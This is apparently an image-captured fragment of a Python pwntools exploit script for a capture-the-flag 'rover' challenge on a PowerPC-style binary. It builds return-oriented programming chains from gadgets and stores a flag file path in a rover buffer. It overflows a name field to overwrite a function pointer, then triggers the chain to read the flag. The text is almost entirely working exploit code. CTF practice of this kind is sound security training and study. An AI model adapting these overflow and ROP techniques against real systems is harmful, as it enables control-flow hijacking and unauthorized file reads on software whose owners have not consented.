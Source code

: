 ```python
    p64(call_r12),
    p64(0x4),
    p64(or_r5_r4),
).ljust(0x100, p8(0x0))


pt3 = flat(
    p64(0x0) * 2 + p32(0x0),
    p64(set_r31),
    p64(move_little_stack),
    p64(0x0) * 6,
    p64(set_r31),
    p64(0x0) * 2,
    p64(read_fn),
    p64(0x0),
    p64(planet(2) + 4 + 0x50),  # r31 => &read
    p64(0x0) * 2,
    p64(call_r12),
    p64(0x0) * 7,
    p64(move_medium_stack_2),
).ljust(0x100, p8(0x0))

pt4 = flat(
    p64(0x0) * 4 + p32(0x0),
    p64(set_r31),
    p64(0x0) * 2,
    p64(mr_r3_r4),
    p64(0x0),
    p64(rover(2) + 4 + 0x20),  # r31 => &mr_r3_r4
    p64(0x0) * 2,
    p64(call_r12),
    p64(0x0) * 7,
    p64(puts),
    p64(0x0) * 3,
).ljust(0x100, p8(0x0))

###################################################################################

log.info("Setting ROP entrypoint")
r.sendlineafter(b"size:", b"32")
r.sendlineafter(b"Joke:", pt_0)

log.info("Setting flag path in rover 14")
choose_rover(r, b"14")
flag_name = b"/home/user/flag\x00"
set_name(r, len(flag_name), flag_name)

log.info("Setting ROP in rover 1")
choose_rover(r, b"1")
set_planet(r, 0x100, pt1)
set_name(r, 0x100, pt2)

log.info("Setting ROP in rover 2")
choose_rover(r, b"2")
set_planet(r, 0x100, pt3)
set_name(r, 0x100, pt4)

log.info("Poisoning function pointer in rover 0")
choose_rover(r, b"0")
set_name(r, 0x100, b"A" * 0x100 + b"\x60")

log.info("Triggering exploit")
r.sendlineafter(b"Option:", b"3")
```